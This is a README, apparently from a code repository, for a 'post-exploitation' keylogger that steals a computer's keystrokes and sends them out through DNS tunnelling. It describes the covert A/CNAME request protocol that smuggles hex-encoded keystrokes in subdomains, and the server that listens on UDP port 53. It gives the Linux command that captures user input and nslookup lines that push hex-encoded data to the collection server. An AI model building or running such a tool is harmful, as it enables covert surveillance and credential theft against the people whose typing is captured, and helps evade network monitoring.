 # DNS Keylogger
This post-exploitation keylogger will automatically report a Windows computer's keystrokes.

This takes advantage of DNS tunelling/exfiltration.

# Protocol
## A Record Request
A record requests indicate the start of a "connection." When the server receives them, it will respond with a fake non-reserved IP address where the last octet contains the id of the client.

Concurrent connections cannot exceed 254, and clients are never considered "disconnected."
## CNAME Record Request
CNAME record requests indicate actual data being sent to the server.
It is in the format of `[packet #].[id].[data].[sld].[tld].`

`id` is the id that was established on connection. Data is sent as ASCII data in hex.
## Malformed Record Requests
If the client sends an malformed record request, the server will respond with NXDOMAIN.
## Non-Existant Connections
If the client sends a data packet with an id greater than the # of connections, the server will respond with REFUSED.
## Out of Order Packets
Occurs when client sends a packet with packet_id that doesn't match what is expected. The server responds with FORMERR. Clients and servers should reset their packet numbers to 0. Then the client can resend the packet.
## Dropped Packets
Clients should rely on responses as acknowledgements of received packets. If they do not receive a response, resend the same payload.

# Server
## Listens on UDP port 53 for DNS packets
Looks for A record and CNAME record requests. Once an A record has been received, the rest of the data from the client should be CNAME record requests.

# Client
## Linux
The Linux keylogger is just a bash file. To start the keylogger, run `script --flush -I a.txt`. This will use the script command to send user input to the server. The bash file can be used to send any data piped to it; it just read from stdin, but each time the script is started, a new connection is established.

### Sending Test Requests
You can use `nslookup` to send requests to the server:

`nslookup -query=A 1.example.com 127.0.0.1` sends a connection request to localhost.

`nslookup -query=CNAME 1.1.54686520717569636B2062726F776E20666F782E1B.example.com 127.0.0.1` to send a test message to localhost.

The `sld` can be anything if you're testing on localhost, but you need to put something there.